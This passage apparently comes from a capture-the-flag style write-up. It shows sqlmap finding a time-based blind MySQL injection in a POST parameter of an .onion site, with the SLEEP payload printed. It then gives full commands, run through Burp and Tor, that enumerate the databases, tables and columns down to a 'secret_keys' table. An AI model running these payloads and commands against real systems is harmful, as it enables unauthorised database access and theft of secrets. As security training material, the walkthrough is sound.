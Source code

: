 ```bash
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (2) and risk (2) values? [Y/n] 
[07:28:05] [INFO] checking if the injection point on POST parameter 'k' is a false positive
POST parameter 'k' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 62 HTTP(s) requests:
---
Parameter: k (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: k=foo' AND (SELECT * FROM (SELECT(SLEEP(5)))VEyD) AND 'Tsac'='Tsac
---
[07:28:54] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.23, PHP 5.6.28
back-end DBMS: MySQL >= 5.0.12
[07:28:54] [INFO] fetched data logged to text files under '/home/jsmith/.sqlmap/output/7y4b2aymlqwmkyuh.onion'

[*] shutting down at 07:28:54
```

As for the parameters used, the `proxy` setting allows to connect to Tor network through Burp. The `--technique T` forces the use of time-based blind injection technique. To go further we instruct sqlmap to dump the DB list as follows (and this takes forever because it is time-based through Burp through SOCKS proxy through Tor, who said inception?):
```bash
$ sqlmap --proxy=http://127.0.0.1:8080 -u http://7y4b2aymlqwmkyuh.onion --cookie="PHPSESSID=4e0chtslg9i10l3f1hdd4ee6n3" --data="k=foo" --dbs
[CUT BY TROLLI101]
available databases [5]:
[*] information_schema
[*] mysql
[*] pengus_site
[*] performance_schema
[*] test
[CUT BY TROLLI101]
```

Next step is to list the tables in DB pengus_site:
```bash
$ sqlmap --proxy=http://127.0.0.1:8080 -u http://7y4b2aymlqwmkyuh.onion --cookie="PHPSESSID=4e0chtslg9i10l3f1hdd4ee6n3" --data="k=foo" -D pengus_site --tables
[CUT BY TROLLI101]
Database: pengus_site
[1 table]
+-------------+
| secret_keys |
+-------------+
[CUT BY TROLLI101]
```

And then the columns of the table secret_keys:
```bash
$ sqlmap --proxy=http://127.0.0.1:8080 -u http://7y4b2aymlqwmkyuh.onion --cookie="PHPSESSID=4e0chtslg9i10l3f1hdd4ee6n3" --data="k=foo" -D pengus_site -T secret_keys --columns
[CUT BY TROLLI101]
tabase: pengus_site
Table: secret_keys
[1 column]
+------------+--------------+
| Column     | Type         |
+------------+--------------+
| secret_key | varchar(200) |
+------------+--------------+
[CUT BY TROLLI101]
```
